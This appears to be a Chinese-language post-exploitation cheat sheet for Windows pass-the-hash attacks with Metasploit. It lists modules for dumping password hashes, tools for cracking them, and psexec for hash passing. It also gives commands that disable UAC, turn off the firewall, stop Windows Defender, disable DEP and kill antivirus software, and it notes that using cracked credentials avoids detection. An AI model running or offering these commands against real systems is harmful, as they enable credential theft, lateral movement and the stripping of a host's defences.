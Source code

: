 ## PassingTheHash

windwos 系统下的hashh密码格式为：

	用户名:RID:LM-HASH值:NT-HASH值

获取hash值：

* hashdump  (需要系统权限)
* run post/windwos/gather/smart_hashdump
	* 检查权限和系统类型
	* 检查是否是域控服务器
	* 从注册表中读取hash、注入LSASS进程
	* 如果是08server并且具有管理员权限，直接getsystem提权
	* 如果是win7且UAC关闭并具有管理员权限，从注册表中读取
	* 03/XP直接getsystem,从注册表获取HASH


为啥破解密码:

使用正常流程账号密码登录不易被发现。

方便。

弱口令渗透其他服务器

hash值破解：

* 在线  www.cmd5.com
* 离线  findmyhash 、 L0phtCrack

hash传递：

* psexec: exploit/windows/smb/psexec


## msf哈希传递

模块：

	 exploit/windows/smb/psexec

win7注册表关闭uac:

* 首先按下键盘“Win + R”打“运行”窗口，然后输入“regedit”并点击确定打开注册表
* 进入“注册表编辑器”窗口后，在左侧依次展开“HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Policies/System”； 
* 然后在右侧分别找到“ConsentPromptBehaviorAdmin”、“EnableLUA”、“PromptOnSecureDesktop”3个项，在其位置处右键打开菜单，然后选择“修改”，把“数值数据”修改为“0”，点击确定即可。


msf操作： `reg.exe ADD HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f`

## 关闭杀毒软件和防火墙及开启远程桌面

* 关闭防火墙
	* netsh advfirewall set allprofiles state off (管理员及以上权限)
* 关闭 Denfender (windows 自带服务)
	* net stop windefend
* 关闭DEP (windows 安全机制)
	* bcdedit.exe /set {current} nx AlwaysOff
* 关闭杀毒软件
	* run killav
	* run post/windows/manage/killava
